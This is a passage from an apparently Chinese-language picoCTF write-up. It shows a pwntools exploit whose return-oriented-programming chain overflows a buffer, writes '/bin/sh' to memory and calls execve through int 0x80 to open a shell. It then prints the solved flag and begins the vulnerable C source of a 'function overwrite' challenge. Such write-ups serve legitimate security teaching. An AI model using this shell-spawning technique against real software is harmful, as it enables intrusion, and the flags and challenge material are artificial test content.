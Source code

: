 ```python
vuln_addr = 0x8049d95
bss_addr = 0x80e62f0

# Step 1: read '/bin/sh' into bss segment and return to vuln() function
payload = cyclic(28)
payload += p32(read_addr) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(100)

io.sendlineafter(b'grasshopper!', payload)

payload = b'/bin/sh\x00'
io.sendline(payload)

# Step 2: use 'int 80' to call SYS_execve, set argument as:
# eax = 0xb
# ebx = '/bin/sh' address
# ecx = edx = 0
payload = cyclic(28)
payload += p32(pop_eax_addr) + p32(0xb)
payload += p32(pop_edx_ebx_addr) + p32(0) + p32(bss_addr)
payload += p32(pop_ecx_addr) + p32(0)
payload += p32(int_80_addr)

io.sendlineafter(b'grasshopper!', payload)

io.interactive()
```

picoCTF{5n47ch_7h3_5h311_e81af635}

# 12. function overwrite

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
```